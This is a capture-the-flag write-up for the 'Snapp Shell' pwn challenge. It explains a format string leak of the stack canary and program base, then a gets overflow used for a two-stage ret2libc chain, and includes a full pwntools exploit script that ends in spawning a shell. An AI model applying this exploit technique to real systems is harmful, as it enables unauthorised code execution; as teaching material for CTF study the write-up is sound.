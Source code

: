 ```yaml
---
showFullContent: false
readingTime: true
---
```


## Snapp Shell

````
My [**shell**](https://snappctf.com/tasks/snappshell_fc8d87fc117c34914b7c1b1d1255e6305ae9a072.txz) is broken, can you fix it for me? No you can't = )

`nc 91.107.177.236 3117`
````
## Solution

There was 4 functionality in the program, one was exit, other one was cat which was disabled and there were two functionality which were useful for the exploitation, `echo` function that was vulnerable to format string and was used to leak the canary and address of `main` function and the base of program for gadgets that we might need, and the `find_index` function which  was vulnerable to overflow with `gets` function allowing us to jmp wherever we need.

After a long search for pop rdi gadget to leak the libc address to bypass ASLR, I was hopelessly searching writeups to figure what to do when I found https://ctftime.org/writeup/36368 which was the Idea and once more I opened r2 and found out that it is actually there with a `0x62050` difference to the libc base address, so used puts function to leak that and after that return again to main and after that using the pop rdi gadget inside libc to pop bin/sh string to the rdi and finally calling system function.

```python3
p=process('./snapp_shell')

# Leak canary
p.sendline('1')
p.recvuntil('input\n')
p.sendline('%7$p')
x=p.recvline()
can=p64(int(x,16))

# get main address
p.sendline('1')
p.recvuntil('input\n')
p.sendline('%15$p')
x=p.recvline()
main=int(x,16)

# Compute some useful addresses or just set to find their real address later
exe = main-0x0000140d
puts = exe+0x10e4
ret = exe+0x101a
diff = 0x62050
system = 0x50d70
binsh = 0x1d8678
pop_rdi = 0x2a3e5

# First step exploit
p.sendline('3')
pay=b'SNAPPaaaabaaacaaadaaaeaa'+can+b'aaaabaaa'+p64(ret)+p64(puts)+p64(ret)+p64(main)
p.sendline(pay)
p.recvuntil('input is')
p.recvline()
lc = p.recvline()
lcd = u64(lc[:-1]+b'\x00\x00')
libc = lcd - diff

# Second step exploit
p.sendline('3')
pay=b'SNAPPaaaabaaacaaadaaaeaa'+can+b'aaaabaaa'+p64(ret)+p64(libc+pop_rdi)+p64(libc+binsh)+p64(libc+system)
p.sendline(pay)
```

![IMG/Pasted image 20240225191817.png](./IMG/Pasted image 20240225191817.png)